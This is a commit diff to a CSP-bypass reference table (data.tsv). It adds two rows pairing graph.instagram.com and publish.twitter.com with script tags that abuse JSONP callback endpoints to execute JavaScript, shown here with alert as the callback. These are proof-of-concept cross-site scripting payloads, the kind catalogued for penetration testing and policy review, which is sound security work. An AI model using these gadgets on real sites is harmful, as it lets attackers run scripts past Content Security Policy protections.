

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added publish.twitter.com and graph.instragram.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 108: graph.instagram.com | <script src=https://graph.instagram.com/logging_client_events?callback=alert></script>
+row 154: publish.twitter.com | <script src="https://publish.twitter.com/oembed?url=https://twitter.com/jack/status/20&callback=alert"></script>
```
